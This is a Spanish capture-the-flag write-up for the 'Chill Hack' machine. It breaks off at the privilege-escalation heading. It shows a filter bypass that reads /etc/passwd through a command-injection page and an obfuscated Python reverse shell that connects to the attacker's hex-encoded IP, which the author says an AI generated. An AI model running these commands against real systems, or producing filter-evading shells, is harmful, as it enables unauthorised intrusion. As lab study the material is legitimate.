 ```bash
===============================================================

```
Mirare en la ruta /secret ya que tiene pinta de tener algo.

![Imagen Panel](../img/Chillhack1.PNG)

En la ruta /secret/ se pueden ejecutar comandos, con el user www-data. Al probar comandos como el cat, ls entre otros, estan restringidos y salta un aviso.

Entonces probar con otros comandos. Al colcar este comando con while, mostrara el contenido del passwd, para saber los users que hay. Hay otras formas de hacerlo.

```bash
while IFS= read -r linea; do echo "$linea"; done </etc/passwd
```
Estan los posibles users : ubuntu, anurodh, apaar, aurick, ya que suele empezar el primer user asi 1000:1000 , he intentado a hacer un hydra con los user pero al ver que tarda, seguramente haya otra manera de acceder.

## Acceso remoto

He utilizado IA para que me genere un payload para hacer un reverse shell, en mi caso el codigo es el siguiente, pero la ip de mi maquina esta codificada. 

```bash
En otra terminal : nc -nlvp 4444
```
 b"\x31\x30\x2e\x32\x31\x2e\x39\x35\x2e\x32\x32\x30" Esta parte la tendrias que cambiar por tu ip en hexadecimal
```bash
 /usr/bin/python3 -c '__=__import__;s=__("so""cket");o=__("o""s");p=__("pt""y");c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect((b"\x31\x30\x2e\x32\x31\x2e\x39\x35\x2e\x32\x32\x30".decode(),4444));[o.dup2(c.fileno(),x) for x in(0,1,2)];p.spawn("/b"+"in/"+"b"+"ash")
```
## Escalar privilegios 

